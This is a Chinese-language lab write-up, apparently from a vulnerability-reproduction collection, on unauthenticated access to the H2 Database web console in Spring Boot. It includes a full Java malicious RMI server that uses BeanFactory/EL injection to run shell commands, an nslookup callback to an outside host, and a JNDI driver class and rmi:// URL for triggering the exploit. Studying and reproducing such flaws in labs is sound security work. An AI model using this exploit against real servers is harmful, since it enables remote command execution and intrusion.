




H2 Database Web Console 未授权访问¶
漏洞描述¶
H2 database 是一款 Java 内存数据库，多用于单元测试。H2 database 自带一个 Web 管理页面，在 Spirng 开发中，如果我们设置如下选项，即可允许外部用户访问 Web 管理页面，且没有鉴权：
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
利用这个管理页面，我们可以进行 JNDI 注入攻击，进而在目标环境下执行任意命令。
参考链接：
环境搭建¶
执行如下命令启动一个 Springboot + h2database 环境：
docker-compose up -d
启动后，访问 http://your-ip:8080/h2-console/ 即可查看到 H2 database 的管理页面。
漏洞复现¶
目标环境是 Java 8u252，版本较高，因为上下文是 Tomcat 环境，我们可以参考《Exploiting JNDI Injections in Java》，使用 org.apache.naming.factory.BeanFactory 加 EL 表达式注入的方式来执行任意命令。
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
public class EvilRMIServerNew {
public static void main(String[] args) throws Exception {
System.out.println("Creating evil RMI registry on port 1097");
Registry registry = LocateRegistry.createRegistry(1097);
//prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
//redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
ref.add(new StringRefAddr("forceString", "x=eval"));
//expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
registry.bind("Object", referenceWrapper);
}
}
我们可以借助这个小工具 JNDI 简化我们的复现过程。
首先设置 JNDI 工具中执行的命令为 touch /tmp/success：

然后启动 JNDI-1.0-all.jar，在 h2 console 页面填入 JNDI 类名和 URL 地址：

Driver Class（JNDI 的工厂类）：
javax.naming.InitialContext
JDBC URL（运行 JNDI 工具监听的 RMI 地址）：
rmi://192.168.128.1:23456/BypassByEL
点击连接后，恶意 RMI 成功接收到请求：

touch /tmp/success 已成功执行：
